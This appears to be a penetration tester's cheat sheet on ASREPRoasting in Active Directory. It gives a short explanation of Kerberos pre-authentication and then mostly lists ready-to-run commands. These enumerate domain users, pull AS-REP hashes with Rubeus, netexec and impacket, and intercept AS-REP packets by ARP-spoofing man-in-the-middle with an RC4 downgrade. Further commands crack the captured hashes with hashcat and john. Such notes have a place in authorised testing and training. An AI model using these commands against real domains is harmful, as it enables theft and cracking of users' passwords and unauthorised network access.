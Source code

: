 ![Pasted image 20241116182234.png](Pasted%20image%2020241116182234.png)
The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/blog/how-kerberos-works/).

![Pasted image 20241116181613.png](Pasted%20image%2020241116181613.png)

**no domain account is needed to perform this attack, only connection to the KDC. However, with a domain account, an LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.**
# Enumeration

#### Enumerating valid users

```shell
./kerbrute_linux_amd64 userenum -d vuln.local userlist.txt --dc dc01.vuln.local -o kerbrute-valid-users.out
```

#### Enumerating vulnerable users (need domain credentials)

```shell
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose #List vuln users using PowerView
```

```shell
bloodyAD -u user -p 'password' -d vuln.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
```

# Attack

### Windows

```powershell
Rubeus.exe asreproast
```

```shell
Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast # Targeting a TestOU3user user
```

### Linux

```shell
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

- [?] Use option **kdcHost** when the domain name resolution fail

```shell
netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
```

to brute force users to search with!
```shell
impacket-GetNPUsers -no-pass -usersfile valid_users.txt vuln.local/
```

```shell
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist:
```shell
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```


# ASREProast without credentials

An attacker can use a **man-in-the-middle** position to capture AS-REP packets as they traverse the network **without relying on Kerberos pre-authentication being disabled.** It therefore works for all users on the VLAN. [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```shell
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```




# Cracking the AS-REP message

```shell
hashcat -m18200 output.txt wordlist
```

```shell
john --format=krb5asrep --wordlist=/usr/share/wordlist/rockyou.txt hashes.asreproast
```